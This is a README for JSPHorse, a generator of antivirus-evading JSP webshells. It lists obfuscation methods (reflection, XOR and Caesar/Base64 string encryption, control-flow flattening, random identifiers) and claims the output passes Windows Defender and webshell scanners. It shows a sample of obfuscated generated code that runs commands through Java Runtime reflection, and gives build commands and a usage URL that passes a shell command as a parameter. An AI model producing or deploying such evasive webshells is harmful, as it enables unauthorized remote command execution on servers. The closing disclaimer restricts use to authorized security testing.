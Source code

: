# JSPHorse

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/JavaParser-3.23.1-blue)
![](https://img.shields.io/badge/Java-8-red)

## 简介

一个JSP免杀Webshell生成器，目前仅支持普通回显Webshell，后续可能支持冰蝎等，核心技术为Java的AST库JavaParser

```txt
　　 へ　　　　　／|
　　/＼7　　　 ∠＿/
　 /　│　　 ／　／
　│　Z ＿,＜　／　　 /`ヽ
　│　　　　　ヽ　　 /　　〉
　 Y　　　　　`　 /　　/
　?●　?　●　　??〈　　/
　()　 へ　　　　|　＼〈
　　>? ?_　 ィ　 │ ／／
　 / へ　　 /　?＜| ＼＼
　 ヽ_?　　(_／　 │／／
　　7　　　　　　　|／
　　＞―r￣￣~∠--|
```

特点：

- Java反射调用
- 双重异或加密数字常量
- 凯撒密码随机偏移并结合Base64双重加密字符串常量
- 使用控制流平坦化并随机生成分发器
- 所有标识符全部替换为随机字符串
- 支持全局Unicode编码
- 每次执行都会生成完全不同的马（结构相同内容不同）
- 参考三梦师傅代码完成Javac动态编译class进一步免杀
- 集成KpLi0rn师傅提供的ScriptEngine免杀（未测试）

简单测试了免杀效果：

| 名称 | 测试结果 |
| :----: | :----: |
| 百度WEBDIR+ | ![](https://img.shields.io/badge/pass-green) |
| 河马SHELLPUB | ![](https://img.shields.io/badge/pass-green) |
| Windows Defender | ![](https://img.shields.io/badge/pass-green) |

生成JSP大致代码如下：

```java
 try {
        String[] bUKHeZoxwrAKYLkjvcMP = new String[] { "NXwwfDJ8M3w3fDl8MTB8MTF8Nnw4fDF8NA==", "eGVs", "a3Vs", "amF2YS5sYW5nLlJ1bnRpbWU=", "b21iWmN2YnF1bQ==", "bWZtaw==", "PHByZT4=", "PC9wcmU+" };
        String CSLEQilaJEXYTqhIDubS = dec(bUKHeZoxwrAKYLkjvcMP[((627747 ^ 1285107) ^ (217916 ^ 1662188))], ((362867 ^ 1112231) ^ (464295 ^ 1205371)));
        String[] jhetxjKiUeIqIeKBycOb = CSLEQilaJEXYTqhIDubS.split("\\|");
        int jEpUBflQcOJKNizndvCp = ((525415 ^ 1384817) ^ (317417 ^ 1700607));
        String UQIOIelnYKguiPiMnaQT = null;
        String nawTPQyIRdcwDULZVBSF = null;
        Class PGyKjvgngwNbFYoJPbaj = null;
        java.lang.reflect.Method EbTdlrXQiEuMcgyFuGyY = null;
        java.lang.reflect.Method HGjRkjZSeXejrnHgtgIq = null;
        Process gVCGkwmXVnpDbwgkpiyP = null;
        java.io.InputStream DIFNoxuAzWMRCwXZtJWB = null;
        byte[] RDwBQBJtrIRqaxomirvG = null;
        while (true) {
            int OKovVnfpZyAFhVlmyglP = Integer.parseInt(jhetxjKiUeIqIeKBycOb[jEpUBflQcOJKNizndvCp++]);
            switch(OKovVnfpZyAFhVlmyglP) {
                case ((303670 ^ 1554191) ^ (15449 ^ 1255776)):
                    nawTPQyIRdcwDULZVBSF = request.getParameter(dec(bUKHeZoxwrAKYLkjvcMP[((2039625 ^ 1074544) ^ (1424304 ^ 1753483))], ((841358 ^ 1837015) ^ (835561 ^ 1863352))));
                    break;
                case ((849435 ^ 1174311) ^ (325714 ^ 1697127)):
                    HGjRkjZSeXejrnHgtgIq = PGyKjvgngwNbFYoJPbaj.getMethod(dec(bUKHeZoxwrAKYLkjvcMP[((673702 ^ 1287280) ^ (321257 ^ 1901882))], ((534640 ^ 1947587) ^ (300141 ^ 1117142))), String.class);
                    break;
                case ((346862 ^ 1984726) ^ (144870 ^ 1652694)):
                    out.print(dec(bUKHeZoxwrAKYLkjvcMP[((591409 ^ 1247053) ^ (1047216 ^ 1440714))], ((1916117 ^ 1041302) ^ (390214 ^ 1518349))));
                    break;
......................................................
```

## Quick Start

在Github右侧Release页面下载

生成标准形式Webshell

`java -jar JSPHorse.jar -p your_password`

全局Unicode编码（JSP支持全局Unicode编码）

`java -jar JSPHorse.jar -p your_password -u`

生成进阶版Webshell（Javac动态编译class）

`java -jar JSPHorse.jar -p your_password --super`

进阶版Webshell基础上全局Unicode编码

`java -jar JSPHorse.jar -p your_password --super -u`

使用木头神提供的JS免杀（未测试）

`java -jar JSPHorse.jar -p your_password -j`

如何使用？

http://xxx/1.jsp?pwd=your_password&cmd=calc.exe

## 免责申明

未经授权许可使用`JSPHorse`攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的



